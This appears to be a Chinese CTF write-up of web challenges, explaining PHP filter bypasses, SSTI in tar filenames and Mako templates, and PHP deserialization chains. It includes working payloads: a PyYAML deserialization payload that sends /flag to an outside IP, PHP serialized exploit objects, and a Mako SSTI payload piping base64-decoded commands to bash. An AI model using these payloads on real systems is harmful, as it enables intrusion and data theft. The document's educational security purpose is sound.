

# <font style="color:#601BDE;">W</font><font style="color:#AE146E;">eb</font>
## <font style="color:#5C8D07;">Web入门指北</font>
翻到最后，解一下 base64。


## <font style="color:#5C8D07;">php_beginer</font>
```php
<?php
highlight_file(__FILE__);
$flag = file_get_contents("/flag");

if(isset($_GET['what_is[php'])){
    if(strpos($_REQUEST['what_is[php'], 'easy') !== false){
        echo "php is not so easy!T^T";
        die();
    }
    if(strpos($_SERVER['QUERY_STRING'], 'easy') !== false){
        echo "php is so hard!T^T";
        die();
    }
    if($_GET['what_is[php']==="php is so easy"){
        echo "yes, php is so easy!";
        echo $flag;
    }
}else{
    echo "nonono";
} 


```

首先是传参问题，是一个经典的绕过，把下划线换成左中括号即可。

最后要求变量必须是 php is so easy，这个是毋庸置疑的。

$_REQUEST 中，POST 的优先级高于 GET，我们可以随便 POST 一个绕过第一层。

第二层是 $_SERVER，他不会自动 urldecode，我们可以直接将传入的东西 url 编码，绕过这一层。


## <font style="color:#5C8D07;">ezPHP</font>
```php
 <?php
highlight_file(__FILE__);

if (preg_match('/[A-Za-z]|\^|~|%|\.|\$|\{|\}|\||\/|\?|\+|=|`| |\*|_|#/is', $_GET['exp'])) {
    die("no hack");
}else{
    @eval($_GET['exp']);
} 


```

RCE 绕过，可以用 8 进制绕过。

:::tip
("八进制的函数名")("八进制的参数")

:::


## <font style="color:#5C8D07;">untar</font>
非预期。

可以上传 tar 文件，然后网站会自动将其解压。

看到文件名被原封不动地渲染出来，可能有 SSTI，试了一下，确实是。

那我们直接构造一个 payload，将其作为文件名，tar 压缩后直接上传即可。

注意文件名中有一些特殊符号不能出现，用 fenjing 跑一下就行了。


## <font style="color:#5C8D07;">ez_yaml</font>
一上来就点一下 check，立马报错。


考察的是 yaml 反序列化，用一些常规的 payload 都绕不过去，过滤了很多关键词。

这里可以使用 tuple 元组绕过，可以直接调用 python 中的 eval 函数。

可以打一发 pyjail，这里没打出来，于是用另一种方法把 /flag 的内容带出来，具体可以参考 [https://blog.ankursundara.com/pyyaml-cve/](https://blog.ankursundara.com/pyyaml-cve/)。


```yaml
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "from urllib import request;print(getattr(request, 'urlopen')('http://27.25.151.98:8080/'+getattr(open('/flag'), 'read')()))"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```


## <font style="color:#5C8D07;">Auth</font>
大致逻辑是这样的，首先前台是一个 php。

```php
 <?php

class auth{

    public $username;
    protected $passwd;
    public $auth;
    
    public function __wakeup(){
        $this->username="nobody";
    }

    public function Getflag(){
        if($this->username === 'admin' && $this->passwd == md5($this->passwd)){
            echo 'welcome!';
            $this->processHeadersAndRequest();
        }else{
            echo 'nono';
            echo $this->passwd;
            echo md5($this->passwd);
            echo $this->username;
        }
    }

    public function processHeadersAndRequest() {
        // 获取请求的所有 headers
        $headers = getallheaders();

        // 将 headers 的键和值都转换为小写字母
        $lowercase_headers = [];
        foreach ($headers as $key => $value) {
            $lowercase_headers[strtolower($key)] = strtolower($value);
        }

        // 检查 admin 字段是否包含 'true'
        if (isset($lowercase_headers['admin']) && strpos($lowercase_headers['admin'], 'true') !== false) {
            // 如果 admin 字段包含 'true'，返回错误信息
            echo json_encode(['error' => 'Unauthorized access']);
        } else {
            // 否则，继续请求并带着转换为小写的 headers 向后端发出请求
            $ch = curl_init('http://127.0.0.1:5000/check');

            // 构建请求头数组，并将键和值转换为小写
            $curl_headers = [];
            foreach ($lowercase_headers as $key => $value) {
                $curl_headers[] = "$key: $value";
            }

            // 设置 cURL 选项
            curl_setopt($ch, CURLOPT_HTTPHEADER, $curl_headers);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

            // 发出请求并获取响应
            $response = curl_exec($ch);
            curl_close($ch);

            // 返回后端的响应
            echo $response;
        }
    }
}

class backdoor{
    public $key;
    public function __destruct(){
        echo $this->key;
    }
}

class middleware{
    public $ware;
    public function __toString(){
        $this->ware->Getflag();
        return 0;
    }
}

if(isset($_POST['ser'])) {
    unserialize($_POST['ser']);
} else {
    highlight_file(__FILE__);
}


```

需要想办法进到 processHeadersAndRequest 里面，会向后台发送请求，验证 admin 请求头的值是否为 true，但是如果 admin 请求头的值已经是 true，就不会向后台发送请求。

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/check', methods=['GET', 'POST'])
def check_headers():
    # 获取请求头
    headers = {key.lower(): value for key, value in request.headers.items()}
    
    # 判断 'admin' 字段是否包含 'true'
    if 'admin' in headers and 'true' in headers['admin'].lower():
        try:
            # 打开指定文件并返回内容
            with open('/flag', 'r') as file:
                content = file.read()
            return content
        except FileNotFoundError:
            return "error", 404
    else:
        return "只有admin可以获得flag", 403

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)


```

php 那边就是一个简单的反序列化，有个 md5 自身相等绕过，然后还需要注意有 protected 属性，需要 url 编码后再传入，还有个 __wakeup 需要绕一下，直接篡改成员数量即可。

admin 请求头的绕过方法可以参考攻防世界的 ez_curl 题目。




## <font style="color:#5C8D07;">cl0udreve</font>
SICTF 原题+原文章，照着复现就好了，不多赘述。

[https://xz.aliyun.com/t/15669?u_atoken=23a103a32a0e6d88d92c6c3fc2cd7e3a&u_asig=0a472f8c17325260328835223e00c7](https://xz.aliyun.com/t/15669?u_atoken=23a103a32a0e6d88d92c6c3fc2cd7e3a&u_asig=0a472f8c17325260328835223e00c7)


## <font style="color:#5C8D07;">Math Master1.0</font>
偷懒，直接用 Math Master2.0 给的源码。

我们需要 1000 次答对问题，很明显需要脚本交互。

这里可以通过几个 api 获取数据。

直接用 requests 库交互比较麻烦，因为还涉及一些 SM4，SM2，SM3 的加解密，用 python 的库不太好实现，这里直接用 nodejs 写。

大致流程就是，先从 /api/expr 中得到表达式，进行计算，然后从 /api/sec 中获取公钥的密文，是用 SM4 加密的，key 和 iv 都可以在源码中找到。

计算出答案后，我们需要将 MathMaster 和计算出的结果拼接，并用刚才的公钥去加密该字符串。

最后进行 SM3 签名，将内容传入 /api/verify 验证答案，正确即可返回 success。

GPT 跑一个脚本秒了。

```javascript
const { sm3, sm2, sm4 } = require('sm-crypto');
const axios = require('axios');
const { CookieJar } = require('tough-cookie');
const { wrapper } = require('axios-cookiejar-support');

// 配置
const BASE_URL = "http://223.129.86.2:34078/";
const COOKIE_VALUE = 'ko4-sess=nOxQ2yXUUIHXU_bv5olkmnCnKpqdd4lF';
const SM4_KEY = "bb405999b06b7839c85a887a17c3d3f8";
const SM4_IV = "e4799dcac5e3017de93baf7b364693c3";

const API_ENDPOINTS = {
  key: 'api/sec',
  verify: 'api/verify',
  expr: 'api/getExpr',
};

// 设置Cookie和Axios实例
const cookieJar = new CookieJar();
cookieJar.setCookieSync(COOKIE_VALUE, BASE_URL);

const axiosInstance = wrapper(axios.create({
  jar: cookieJar,
  withCredentials: true,
  proxy: {
    protocol: 'http',
    host: '27.25.151.98',
    port: 8080
  }
}));

// 加密解密逻辑
async function fetchAndProcess() {
  for (let attempt = 1; attempt <= 1000; attempt++) {
    try {
      // 获取公钥密文
      const keyResponse = await axiosInstance.get(`${BASE_URL}${API_ENDPOINTS.key}`);
      const encryptedKey = keyResponse.data.p;

      // 解密公钥
      const decryptedKey = sm4.decrypt(encryptedKey, SM4_KEY, {
        mode: 'cbc',
        padding: 'pkcs#7',
        iv: SM4_IV
      });

      // 获取表达式
      const exprResponse = await axiosInstance.get(`${BASE_URL}${API_ENDPOINTS.expr}`);
      const expression = exprResponse.data.e;
      const evaluatedResult = eval(expression); // 动态计算表达式

      // 用SM2加密答案
      const answer = "MathMaster" + evaluatedResult;
      const encryptedAnswer = sm2.doEncrypt(answer, decryptedKey);

      // 签名请求数据
      const payload = { answer: encryptedAnswer };
      const nonce = '40af3bb57a9aa21a';
      const signature = sm3(nonce + JSON.stringify(payload), { key: decryptedKey });

      // 验证答案
      const verifyResponse = await axiosInstance.post(`${BASE_URL}${API_ENDPOINTS.verify}`, payload, {
        headers: {
          'Content-Type': 'application/json',
          'X-NONCE': nonce,
          'X-SIGN': signature
        }
      });

      console.log(`Attempt ${attempt}:`, verifyResponse.data);

    } catch (error) {
      console.error(`Error on attempt ${attempt}:`, error.message);
    }
  }
}

// 执行主函数
fetchAndProcess();


```

跑到 1000 会发现没有给 flag，很怪，直接用 burp 抓包去访问，把 cookie 改成 xxx，能看到 flag。

## <font style="color:#5C8D07;">Math Master 2</font>
在 1 的基础上，有了时间限制。

脚本还是一样的，改个次数就行了。

```javascript
const { sm3, sm2, sm4 } = require('sm-crypto');
const axios = require('axios');
const { CookieJar } = require('tough-cookie');
const { wrapper } = require('axios-cookiejar-support');

// 配置
const BASE_URL = "http://223.129.86.2:34078/";
const COOKIE_VALUE = 'ko4-sess=nOxQ2yXUUIHXU_bv5olkmnCnKpqdd4lF';
const SM4_KEY = "bb405999b06b7839c85a887a17c3d3f8";
const SM4_IV = "e4799dcac5e3017de93baf7b364693c3";

const API_ENDPOINTS = {
    key: 'api/sec',
    verify: 'api/verify',
    expr: 'api/getExpr',
};

// 设置Cookie和Axios实例
const cookieJar = new CookieJar();
cookieJar.setCookieSync(COOKIE_VALUE, BASE_URL);

const axiosInstance = wrapper(axios.create({
    jar: cookieJar,
    withCredentials: true,
    proxy: {
        protocol: 'http',
        host: '27.25.151.98',
        port: 8080
    }
}));

// 加密解密逻辑
async function fetchAndProcess() {
    for (let attempt = 1; attempt <= 62; attempt++) {
        try {
            // 获取公钥密文
            const keyResponse = await axiosInstance.get(`${BASE_URL}${API_ENDPOINTS.key}`);
            const encryptedKey = keyResponse.data.p;

            // 解密公钥
            const decryptedKey = sm4.decrypt(encryptedKey, SM4_KEY, {
                mode: 'cbc',
                padding: 'pkcs#7',
                iv: SM4_IV
            });

            // 获取表达式
            const exprResponse = await axiosInstance.get(`${BASE_URL}${API_ENDPOINTS.expr}`);
            const expression = exprResponse.data.e;
            const evaluatedResult = eval(expression); // 动态计算表达式

            // 用SM2加密答案
            const answer = "MathMaster" + evaluatedResult;
            const encryptedAnswer = sm2.doEncrypt(answer, decryptedKey);

            // 签名请求数据
            const payload = { answer: encryptedAnswer };
            const nonce = '40af3bb57a9aa21a';
            const signature = sm3(nonce + JSON.stringify(payload), { key: decryptedKey });

            // 验证答案
            const verifyResponse = await axiosInstance.post(`${BASE_URL}${API_ENDPOINTS.verify}`, payload, {
                headers: {
                    'Content-Type': 'application/json',
                    'X-NONCE': nonce,
                    'X-SIGN': signature
                }
            });

            console.log(`Attempt ${attempt}:`, verifyResponse.data);

        } catch (error) {
            console.error(`Error on attempt ${attempt}:`, error.message);
        }
    }
}

// 执行主函数
fetchAndProcess();


```

## <font style="color:#5C8D07;">MyBlog</font>
泄露了 www.zip，下载下来看看。

代码审计，是个 thinkphp 框架。

有 sql 注入，但是 WAF 拉满了，没什么用。

仔细看看发现有个任意文件读取，直接目录穿越出来，可以把头像换成文件的路径，就会以 base64 的形式读出来。


## <font style="color:#5C8D07;">ez_unserialize</font>
```php
 <?php
highlight_file(__FILE__);
function filter($password){
    $filter_arr = array("admin");
    $filter = '/'.implode("|",$filter_arr).'/i';
    return preg_replace($filter,"guest",$password);
}
class User{
    public $username;
    public $value;
    public function shell($unser){
        $ser = serialize($unser);
        if($ser!=$this->value){
            $key1 = $unser[0];
            $key2 = $unser[1];
            echo new $key1($key2);
        }
        
    }
    public function __destruct()
    {
        if($this->username == "admin"){
            $unser = unserialize($this->value);
            $this->shell($unser);
        }
    }
}

$user=unserialize(filter($_POST["user"]));


```

一共三层，第一层 `$this->username == "admin"` 是弱比较，可以把 `$this->username` 直接赋值成 true，这样就能绕过。

第二层是二次绕过，要求 **原对象 **和 **该对象被序列化后再反序列化后** 不一样，这里可以借助 `<font style="color:#4c4f69;background-color:#eff1f5;">__PHP_Incomplete_Class</font>`<font style="color:#4c4f69;background-color:#eff1f5;"> </font><font style="color:#000000;background-color:#eff1f5;">绕过。</font>

<font style="color:#000000;background-color:#eff1f5;">最后一层用 php 的内置类 </font>`<font style="color:#4c4f69;background-color:#eff1f5;">SplFileObject</font>`<font style="color:#4c4f69;background-color:#eff1f5;"> </font><font style="color:#000000;background-color:#eff1f5;">读取 flag 中的内容。</font>

```php
<?php
class Myclass{}
$myclass = new Myclass();
$myclass->abc = NULL;
$temp = Array(
    0 => "SplFileObject",
    1 => "/flag",
    2 => $myclass
);
echo serialize($temp)."\n";
$ser = "a:3:{i:0;s:13:\"SplFileObject\";i:1;s:5:\"/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}";
$xx = unserialize($ser);
print_r($xx);
class User{
    public $username = true;
    public $value = "a:3:{i:0;s:13:\"SplFileObject\";i:1;s:5:\"/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}";

}
$p = new User();
echo serialize($p);


```


## <font style="color:#5C8D07;">my_anonymous_board</font>
随便写一个留言，发现每一个留言都会有一个 id。

访问对应 id 的路由，就会得到该 id 对应的留言。

如果不存在这个 id，还是会把页面渲染出来。


会不会有 SSTI 呢？

发现他刻意过滤了大括号，可是过滤了大括号怎么 SSTI 呢？

其实 SSTI 不止一种，还有很多模板引擎，其利用方式也不一样，比如说这里可以用 <%%> 也可以 SSTI。

这里用的是 mako 模板引擎，可以参考这个文章进行利用。

[https://xz.aliyun.com/t/12187?time__1311=GqGxRDniiQe7qGN4CxUxQwxWupGitaYKW4D](https://xz.aliyun.com/t/12187?time__1311=GqGxRDniiQe7qGN4CxUxQwxWupGitaYKW4D)

**<font style="color:#000000;">文章里面给出的 payload 是</font>**<font style="color:rgb(221, 17, 68);"> </font>`<font style="color:rgb(221, 17, 68);"><%str(__M_writer(str(__import__("os").system("id"))))%></font>`<font style="color:#000000;">，但是这里用不了，需要修一下，我们把 system 换成 popen("xxx").read()。</font>


成功 RCE。

这里如果用斜杠字符的话会被识别，我们得想办法绕过斜杠，最简单的方法就是 echo 搭配 base64 绕过。

还需要 url 编码一下。

`<%str(__M_writer(str(__import__("os").popen("echo bHMgLw== | base64 -d | bash").read())))%>`


